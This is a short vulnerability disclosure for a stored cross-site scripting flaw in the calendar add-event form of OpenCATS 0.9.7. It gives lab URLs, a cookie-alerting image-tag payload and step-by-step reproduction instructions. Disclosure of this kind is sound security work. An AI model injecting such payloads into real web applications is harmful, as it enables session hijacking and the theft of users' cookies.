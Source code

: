 # Stored XSS in Calendar-Add-Event
Date: 2022/12/25

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL&POC
`http://192.168.2.153/src/opencats/index.php?m=calendar`

`http://192.168.2.153/src/opencats/index.php?m=calendar&view=DAYVIEW&month=12&year=2022&day=25&showEvent=1`

`<img src=x onerror=alert(document.cookie);>`

## Attack Steps
1. Click the Calendat Menu.
2. Add an event, and fill the XSS payload in Title or Desc.
![image](https://user-images.githubusercontent.com/71068573/209456687-a0f913ed-2716-48aa-89b1-2ec13a3f3e13.png)

3. Click the Add Event button, then the stored XSS will be triggered. You can also click the incoming event to trigger this stored XSS.
![image](https://user-images.githubusercontent.com/71068573/209456734-5181d116-bc9d-4693-8871-cf31b33b4534.png)

![image](https://user-images.githubusercontent.com/71068573/209456721-53cb3b93-11a0-4dda-a264-f5bfbc70e0ac.png)

## Source code analysis
![image](https://user-images.githubusercontent.com/71068573/209458256-b255cb58-e766-4d9c-84c1-1feeee8ce117.png)
